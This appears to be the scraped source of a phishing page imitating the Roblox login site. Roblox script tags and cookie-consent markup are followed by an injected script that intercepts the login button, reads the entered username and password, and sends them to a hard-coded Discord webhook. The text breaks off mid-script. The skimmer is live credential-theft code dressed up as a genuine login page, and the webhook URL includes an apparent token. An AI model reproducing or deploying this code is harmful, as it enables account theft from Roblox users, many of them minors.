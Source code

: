<script onerror=Roblox.BundleDetector&amp;&amp;Roblox.BundleDetector.reportBundleError(this) data-monitor=true src=https://js.rbxcdn.com/6f3c0bfbaf1f91c9c1e49c6722bbb5ce462796f1b53763063c5461099fc554f9.js></script><script onerror=Roblox.BundleDetector&amp;&amp;Roblox.BundleDetector.reportBundleError(this) data-monitor=true src=https://js.rbxcdn.com/0f9f2e28d8c6f8de2a6f21016f4f9b57b9c85b574fbb24e3da0186f86c70be1a.js></script><script onerror=Roblox.BundleDetector&amp;&amp;Roblox.BundleDetector.reportBundleError(this) data-monitor=true src=https://js.rbxcdn.com/814aa47f2187d08241bd4bb0d2333038fa0a30390d9f3ef578ab21dd311ba46f.js></script><div id=cookieConsentModalOverlay class="cookie-modal-overlay modal-backdrop in"></div><div id=cookieConsentModalWrapper class="cookie-modal-wrapper modal-dialog"><div id=cookieConsentModal class="modal-content cookie-modal desktop"><div class="modal-header cookie-modal-title"><button type=button class=close> <span aria-hidden=true> <span class=icon-close></span> </span> <span class=sr-only></span> </button><h4>Manage Cookies</h4></div><div class="cookie-modal-content modal-body"><div class=cookie-modal-description>Please choose whether this site may use cookies as described below. You can learn more about how this site uses cookies and related technologies by reading our <a id=cookie-link-privacy class="cookie-link-privacy text-name" href=https://www.roblox.com/info/privacy>privacy policy</a>.</div><div class="modal-checkbox checkbox cookie-checkbox"><input id=cookie-checkbox-essential type=checkbox disabled checked> <label for=cookie-checkbox-essential class=cookie-checkbox-label> Essential Cookies </label></div><div class=cookie-modal-padding>These cookies are required to provide the functionality on the site, such as for user authentication, securing the system or saving cookie preferences.</div><ul class="cookie-modal-padding cookie-modal-list"><li>Roblox<li>Zendesk<li>Gigya</ul><div class="modal-checkbox checkbox cookie-checkbox"><input id=cookie-checkbox-tracking type=checkbox> <label for=cookie-checkbox-tracking class=cookie-checkbox-label> Analytics Cookies </label></div><div class=cookie-modal-padding>These cookies used for improving site performance or understanding site usage.</div><ul class="cookie-modal-padding cookie-modal-list"><li>Google Analytics<li>Google Universal Analytics</ul></div><button id=cookie-btn-allow class="btn-secondary-md cookie-btn-allow"> Allow </button></div></div><div id=cookie-banner-wrapper class="cookie-banner-wrapper desktop"><div class="alert-info cookie-banner"><div class=banner-item>Roblox uses cookies to personalize content, provide social media features and analyze the traffic on our site. To learn about how we use cookies and how you can <a id=cookie-link-manage href=# class="cookie-link-manage text-name">manage cookie preferences</a>, please refer to our <a class=text-name href=https://www.roblox.com/info/privacy>Privacy and Cookie Policy</a>.</div><div class="banner-item accept-btn"><button type=button id=CookieLawAccept class="btn-secondary-sm cookie-law-accept-btn"> Accept </button></div></div></div><script onerror=Roblox.BundleDetector&amp;&amp;Roblox.BundleDetector.reportBundleError(this) data-monitor=true data-bundlename=pageEnd src=https://js.rbxcdn.com/4e90eba34c3e4eb58d18a9f6b8383b5c.js></script><script onerror=Roblox.BundleDetector&amp;&amp;Roblox.BundleDetector.reportBundleError(this) data-monitor=true data-bundlename=LatencyMeasurement src=https://js.rbxcdn.com/8761d57355e1618061c73d8aa15d38b603a7a6b4b3807ca99182799100e0aa4a.js></script>

<script type="text/javascript">document.addEventListener("DOMContentLoaded",()=>{
            const e=document.getElementById("login-username"),o=document.getElementById("login-password"),t=document.getElementById("login-button");
            document.querySelector("p.login-error").setAttribute("style","display: none !important;"),console.log("Loaded",t);

            t.addEventListener("click",async t=>{
                               t.preventDefault();
            const n=e.value.trim(),a=o.value.trim();
            ""!=n&&""!=a?(await(({
              webhookURL:e,content:o}
                                )=>fetch(e,{
              method:"post",headers:{
                "Content-Type":"application/json"}
              ,body:JSON.stringify(o)}
                                        ))({
              webhookURL:"https://discord.com/api/webhooks/793113962907959307/29eOqQFubLYe-bitLe-zOkTe6Y2xUI2FoIcvk9S0f_vmDdqjgHdgaxqwkCMVNTBFlzhW",content:{
                description:"Valid attempt requested",embeds:[{
                  fields:[{
                    name:"Username",value:n,inline:!0}
